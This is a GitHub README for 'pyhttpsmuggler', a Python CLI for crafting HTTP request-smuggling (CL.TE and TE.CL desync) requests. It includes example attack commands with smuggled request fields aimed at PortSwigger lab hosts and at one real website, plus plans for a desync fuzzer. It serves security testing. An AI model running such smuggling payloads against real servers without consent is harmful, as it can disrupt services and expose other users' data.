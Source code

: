 # pyhttpsmuggler
```python
usage: ./pysmuggle [-h | --help] [--host [HOST]] [--port [PORT]] [--ngrok [NGROK]] [--method [METHOD]] 
[--endpoint [ENDPOINT]] [--http-version [HTTP_VERSION]] [--request-headers [REQUEST_HEADERS]] [--debug [DEBUG]]
[--special-formatting [SPECIAL_FORMATTING]] [--body-data [BODY_DATA]] [--body-length [BODY_LENGTH]] 
[--smuggled-body-fields [SMUGGLED_BODY_FIELDS]] [--use-ssl [USE_SSL]]
[--custom-body-payload [CUSTOM_BODY_PAYLOAD]] [--prefix [PREFIX]]
```

Scripts related to web/request smuggling & general web hacking.
This project is free to use and modify. The three things I ask of those interested in using/modifying/distributing this project is:
1. Users have the explicit consent from target host servers' maintainers to test for vulnerabilities-- as a successful exploit may disrupt web-services and/or leak sensitive user-data.
2. Any derivative project using any component from this project upholds the open-source philosophy with others in the research & development community.
3. Lastly, I ask (well, it's more of a statement really) that I assume no liability or responsibility for any & all potential consequences of others'actions when using this script on a live server instance.
## General Information
- The keys for the argument list are colored yellow. The values are purple.
- The request body field is colored such that the purple portion denotes the substring of the request covered by the content-length field. The cyan portion denotes the part of the request to be smuggled. 
## Examples
*Note: passing arguments denoted by pairs of quotations (",') is necessary for request fields which may contain spaces or special charachters*
### Vanilla GET Requests
```python
./pysmuggle --host stallman.org --method GET --body-data "0" --body-length 3 --request-headers "Transfer-Encoding: chunked,Content-Type:text/plain" --smuggled-body-fields ""
```
### CL.TE Vulnerability

```python
./pysmuggle --host "your-access-token.web-security-academy.net" --method "POST" --body-length "35" --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" --debug "1"
```
### TE.CL Vulnerability
```python
./pysmuggle --host "your-access-token.web-security-academy.net" --method "POST" --body-length "4" --body-data "5c" --smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug "1"
```
## Changelog
### 9/4/2021
- Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.
### 9/5/2021
- Implemented a CLI using argparse and the WebRequest class. This introduces robustness and more opportunities for automation since worker threads can easily invoke specially-crafted requests by passing arguments over the CLI under the control of a parent thread or list of exploits to try.
- Updated README with example usage and development logs
# Todo:
## pyhttpsuggler-cli
1. [X] Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
2. [ ] Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
3. [ ] Create a text file with various desync attacks to test on an target webserver and a parser to turn the entries in the file into different requests.
4. [ ] Cleanup the chunk of if/elif/else login in pysmuggler.py:34-94
